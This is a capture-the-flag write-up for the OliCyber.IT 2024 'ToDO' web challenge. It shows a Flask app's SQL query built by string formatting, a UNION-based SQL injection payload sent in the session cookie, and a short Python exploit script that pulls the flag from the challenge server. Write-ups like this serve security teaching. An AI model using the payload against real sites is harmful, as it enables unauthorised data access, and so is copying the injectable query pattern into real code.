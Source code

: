 # OliCyber.IT 2024 - Regional CTF

## [web] ToDO (29 solves)

I wanted to learn some Python and Flask, nothing better than a todo app, that's what Reddit says!

Website: [http://todo.challs.territoriale.olicyber.it](http://todo.challs.territoriale.olicyber.it)

Author: Aleandro Prudenzano <@drw0if>

## Solution

The application is composed by a web server, implemented with Flask inside `app.py`, and a set of useful function to interact with the sqlite database, `db.py`. By analyzing the source code we can quickly notice that all the queries are not executed using prepared statements, but the variable parameters are directly formatted inside the query strings. This can lead to SQLinjection if the input parameters are not correctly escaped.

This indeed happens insie the function `get_user_from_session`:

```python
    def get_user_from_session(self, session_id):
        cursor = self.get_cursor()

        cursor.execute(
            """SELECT users.id, users.username
            FROM users
            JOIN sessions ON users.id = sessions.user_id
            WHERE sessions.id = '%s';""" % (session_id,))

        users = cursor.fetchall()
        cursor.close()

        if len(users) == 1:
            return users[0]

        return None
```

We can then perform a SQLinjection to alter the query and make it return back the tasks belonging to another user, just by using the correctly crafted payload, passed as a session cookie.

A possible payload is `' UNION SELECT id, username FROM users WHERE username='antonio' --`; with this payload, the query will give us back all data associated with the user `antonio`, who is the one containing the flag among its notes.

## Exploit

```python
#!/usr/bin/env python3

import logging
import os
import requests
import re

# For HTTP connection
URL = os.environ.get("URL", "http://todo.challs.external.open.ecsc2024.it")
if URL.endswith("/"):
    URL = URL[:-1]


cookies = {
    "session": "' UNION SELECT id, username FROM users WHERE username='antonio' -- ",
}

r = requests.get(f"{URL}/todo", cookies=cookies)
flag = re.compile(r"flag\{.*\}").search(r.text)

if flag:
    print(flag.group())
else:
    print("Flag not found")
```
